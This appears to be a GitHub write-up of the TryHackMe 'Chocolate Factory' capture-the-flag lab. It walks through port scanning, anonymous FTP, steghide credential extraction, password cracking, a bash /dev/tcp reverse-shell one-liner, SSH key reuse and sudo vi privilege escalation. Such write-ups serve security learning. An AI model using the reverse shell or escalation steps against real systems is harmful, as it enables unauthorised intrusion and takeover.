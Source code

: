 # Chocolate-Factory-THM

scan the network- Useful ports:-
1) 21/tcp  open  ftp        syn-ack vsftpd 3.0.3
2) 22/tcp  open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3) 80/tcp  open  http       syn-ack Apache httpd 2.4.29 ((Ubuntu))

Uncessary ports:-
1) 100/tcp open  newacct?   syn-ack
2) 106/tcp open  pop3pw?    syn-ack
3) 109/tcp open  pop2?      syn-ack
4) 110/tcp open  pop3?      syn-ack
5) 111/tcp open  rpcbind?   syn-ack
6) 113/tcp open  ident?     syn-ack
7) 119/tcp open  nntp?      syn-ack
8) 125/tcp open  locus-map? syn-ack

After directory fuzzing i found home.php, index.php.bak, key_rev_key and many more

but port no 113 in found a url which is the key and your Q1 answer.


login through anonymous in ftp a found a picture

use steghide tool to extract the text file in the image without the password

$steghide extract -sf picture.jpg

In the text file i get user and their pass 

i crack the password hash through john 

i get the password.

Open port 80 and get the login page.

login through username and password.

In website we try to ls, pwd and get the information then i use bash reverse connection command: 
[bash -c 'exec bash -i &>/dev/tcp/ip/4444 <&1']

Get shell!

I found ssh pub and pri key then i copy the pri key which is id_rsa and use in own machine.

And i get the username which is charlie

found user.txt! 

when i use sudo -l,

i get the vi vulnerable binary

i use this binary and i get the root.

find root.txt but the file is protected by a key, but the key is available in the above url(also Q1 answer)

I get last flag and finally go to bed.:)

